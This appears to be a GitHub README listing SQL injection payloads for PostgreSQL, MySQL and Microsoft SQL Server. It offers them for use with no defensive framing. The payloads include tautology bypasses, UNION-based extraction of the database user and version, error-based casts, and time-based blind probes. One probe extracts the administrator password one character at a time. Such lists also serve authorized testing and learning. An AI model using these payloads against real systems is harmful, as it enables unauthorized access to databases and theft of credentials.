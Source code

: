 # WebAppPayloadExamples
Brief example of various common web application vulnerability payloads. 
<h1>Injections</h1>
'||(SELECT%2bcase+when+substring(version(),1,1)%3d'5'+then+sleep(10)+else+sleep(0)+end+from+dual)||'
  <ul>
') OR 1=1 -- 

') OR ('a)'='a)

') OR 1=1 -- 

') UNION SELECT ALL @@version, system_user; -

') UNION SELECT user, 'b' --

<b>Postgress</b>

' OR 'a%'='a%

"' AND CAST(version() AS INT)=1 --"

'||(SELECT 'Shipping')||'

'||(SELECT version())||'

'||(SELECT user)||'

' UNION SELECT user, version() --

') UNION SELECT user, version() --

' UNION SELECT user, 'b' --

' UNION SELECT CAST(version() AS INT) --

Ste'||'ven

'||ver||'

'||(SELECT CASE WHEN SUBSTR(user, 1, 1) = 'n' THEN pg_sleep(10) ELSE pg_sleep(0) END)||'

||(SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='administrator' AND SUBSTRING(Password, 1, 1) = 'a')--

'||(SELECT CASE WHEN SUBSTR(user, 1, 1) = 'n' THEN pg_sleep(10) ELSE pg_sleep(0) END)||

<b>mysql</b>
Integer
') UNION SELECT user, version() --
(Select case when substring(version(), 1, 1)='5' then 1 else 6 END)
100) UNION SELECT …
100 OR 1=1 --
100) OR 1=1 --
100 UNION SELECT user, 'b' --



1 OR 1=1
1 OR 'a'='a' -- 
(SELECT 3+3)
(SELECT CASE WHEN 1=1 THEN 1 ELSE 6 END)
(SELECT CASE WHEN SUBSTRING(@@version, 1, 1)='M' THEN 1 ELSE 2 END)
[IF ERRORS RETURNED]: (SELECT CASE WHEN convert(int,(SELECT @@version))=1 THEN 1 ELSE 2 END)

Integer MySQL
(Select case when 1=1 then 1 else 6 END)
(SELECT CASE WHEN SUBSTRING(user(), 1, 1)='n' THEN 1 ELSE 9 END)-- -
(SELECT IF(SUBSTRING(@@version, 1, 1)='5',1,2))
't' OR (SELECT CASE WHEN substring(user() ,1,1)='n' THEN 1 ELSE 'error' END)
IF(SUBSTRING(@@version, 1, 1)='5',1,6)
(SELECT IF(1=1,1,2))
(SELECT IF(SUBSTRING(@@version, 1, 1)='5',1,2))

<b>Microsoft</b>
Microsoft SQL Displayed

'+(SELECT @@version)+'

Ship'+'ping

'+(SELECT 'Shipping')+'

'+(SELECT CURRENT_USER)+'

' OR 1=1 UNION SELECT USER, @@version --

INTEGER
100+OR++UNION+SELECT+user,+version()+--
(100)UNION+SELECT+@@version,user+--


Microsoft Blind

'+(SELECT CASE WHEN 1=1 THEN 'Shipping' ELSE 'NotADepartment' END)+'

'+(SELECT CASE WHEN SUBSTRING(@@version, 1, 1)='M' THEN 'Steven' ELSE 'notbob' END)+'

[IF ERRORS RETURNED]: '+(SELECT CASE WHEN convert(int,(SELECT @@version))=1 THEN 1 ELSE 2 END)+'

'+(SELECT CASE WHEN 1=1 THEN 'Steven" ELSE 'none' END)-- -

SELECT CAST((SELECT CURRENT_USER) AS int)

  </ul>
